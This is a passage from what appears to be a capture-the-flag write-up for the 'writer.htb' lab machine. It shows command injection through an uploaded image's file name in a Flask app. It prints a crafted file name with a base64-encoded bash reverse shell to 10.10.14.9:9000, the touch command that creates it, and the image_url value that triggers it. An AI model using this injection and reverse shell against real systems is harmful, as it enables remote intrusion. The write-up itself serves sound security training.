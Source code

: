 ```
                    except UnidentifiedImageError: 
                        os.system(f"rm {image_path}")  
                        error = "Not a valid image file!"
                        return render_template('edit.html', error=error, results=results, id=id)
                except:
                    error = "Issue uploading picture"
                    return render_template('edit.html', error=error, results=results, id=id)
            else:
                error = "File extensions must be .jpg!"
                return render_template('edit.html', error=error, results=results, id=id)
```

Reading through this part of the code I believe we can inject commands into the filename.  
We need to go to /dashboard/stories/add and catch a request with burp:  

![obraz](https://github.com/user-attachments/assets/58b8e811-3f00-4be4-9a70-fc6e9b5b2c04)


![obraz](https://github.com/user-attachments/assets/2698ecc2-799c-4a2c-80e4-ce90edb9342c)

We need to use image_url as specified in the code.  
In order to exploit it we need to create a file called:  
```
shell.jpg;echo YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuOS85MDAwICAwPiYxCg== | base64 -d | bash;
```

This base64 part is our reverse shell.  
It can be done with touch:  
```
touch -- 'shell.jpg;echo YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuOS85MDAwICAwPiYxCg== | base64 -d | bash;'
```

Now upload it the normal way:  

![obraz](https://github.com/user-attachments/assets/3ee75aa5-fe29-49a7-a175-e87c934299cb)

Then come back to burpsuite and add this line under image_url parameter:  

```
file:///var/www/writer.htb/writer/static/img/shell.jpg;echo YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuOS85MDAwICAwPiYxCg== | base64 -d | bash;
```

![obraz](https://github.com/user-attachments/assets/65d6e9bc-4e37-4b36-9ade-d021e88aa1f9)
  

We got a connection back!  

![obraz](https://github.com/user-attachments/assets/ab8f04f6-bfe1-470c-ab00-a4eaa8a5148b)



## Priv Esc 1  

In /var/www there are three directories:  
+ html
+ writer.htb
+ writer2_project
